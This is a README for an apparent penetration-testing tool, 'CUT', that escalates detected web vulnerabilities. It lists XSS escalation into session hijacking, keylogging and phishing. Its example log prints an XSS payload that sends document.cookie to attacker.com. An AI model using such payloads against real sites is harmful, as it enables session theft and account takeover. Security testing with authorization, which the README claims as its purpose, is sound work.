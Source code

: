 # **Comprehensive Vulnerability Testing (CUT)**

## **Overview**

CUT (Comprehensive Vulnerability Testing) is an advanced tool designed to identify and escalate various security vulnerabilities in an application. It combines detection and exploitation techniques to provide a thorough security assessment.

## **Features**

- **Detection**:
  - Reads detected vulnerabilities from a file.
- **Automated Exploitation**:
  - Uses specific payloads to test different vulnerabilities.
  - Dynamic scanning of endpoints.
- **Vulnerability Tests**:
  - Insecure Direct Object References (IDOR)
  - Cross-Site Scripting (XSS)
  - Server-Side Request Forgery (SSRF)
  - Local/Remote File Inclusion (LFI/RFI)
  - Privilege Escalation
- **XSS Escalation Techniques**:
  - Session Hijacking
  - Phishing
  - Keylogging
  - Stealing Sensitive Data
  - Defacement
- **Contextual Risk Assessment**:
  - Evaluates business and user impact.
- **Logging and Reporting**:
  - Logs each step and generates a comprehensive report.

## **Installation**

To install the required dependencies, run:

```bash
pip install requests
```

## **Usage**

1. **Prepare an Input File**: Create a text file with detected vulnerabilities. Each line should follow the format: `endpoint,param,vuln_type`.
2. **Run the Program**: Execute the script with the file path to the input file.

```bash
python cut.py
```

## **Example Input File**

```
https://example.com/search,query,XSS
https://example.com/login,username,SQL Injection
https://example.com/profile,user_id,IDOR
```

## **Output**

The program logs all actions and results to a file named `combined_vulnerability_report.log`.

## **Example Output**

```log
2025-01-02 07:38:12 - Loaded 3 vulnerabilities
2025-01-02 07:38:12 - Escalating XSS vulnerability at https://example.com/search with parameter query
2025-01-02 07:38:13 - Testing XSS with payload: <script>alert('XSS')</script>
2025-01-02 07:38:13 - Potential XSS vulnerability detected with payload '<script>alert('XSS')</script>'
2025-01-02 07:38:14 - Testing XSS escalation with payload: <script>document.location='http://attacker.com?cookie='+document.cookie</script>
2025-01-02 07:38:14 - Response Status Code: 200
...
2025-01-02 07:38:20 - Report saved to /path/to/output/combined_vulnerability_report.log
```

## **Contributing**

If you would like to contribute to this project, please fork the repository and submit a pull request with your changes.

## **License**

This project is licensed under the MIT License.

## **Notes**

- Ensure you have authorization to test the application for vulnerabilities.
- This program is designed for educational and ethical purposes only.
